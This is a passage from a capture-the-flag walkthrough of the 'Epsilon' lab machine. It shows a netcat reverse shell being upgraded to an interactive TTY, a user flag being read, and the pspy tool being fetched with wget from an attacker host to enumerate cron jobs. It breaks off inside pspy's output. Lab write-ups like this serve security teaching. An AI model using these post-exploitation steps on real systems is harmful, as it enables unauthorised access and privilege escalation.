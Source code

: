 I’ll upgrade my shell:

```

tom@epsilon:/var/www/app$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
tom@epsilon:/var/www/app$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo;fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
tom@epsilon:/var/www/app$

```

And grab `user.txt`:

```

tom@epsilon:~$ cat user.txt
9ae137b0************************

```

## Shell as root

### Enumeration

There isn’t much else in tom’s home directory. There is an interesting but empty directory at `/opt/backups`.

I’ll upload [pspy](https://github.com/DominicBreuker/pspy):

```

tom@epsilon:/dev/shm$ wget 10.10.14.8/pspy64
--2022-03-09 20:40:37--  http://10.10.14.8/pspy64
Connecting to 10.10.14.8:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3078592 (2.9M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64              100%[===================>]   2.94M  3.53MB/s    in 0.8s    

2022-03-09 20:40:38 (3.53 MB/s) - ‘pspy64’ saved [3078592/3078592]
tom@epsilon:/dev/shm$ chmod +x pspy64

```

On running, it seems to find `/usr/bin/backup.sh` running every minute:

```

pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855

     ██▓███    ██████  ██▓███ ▓██   ██▓                                                                                                                                                                            
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒                                                                  
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░                                                                  
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░                                                                  
```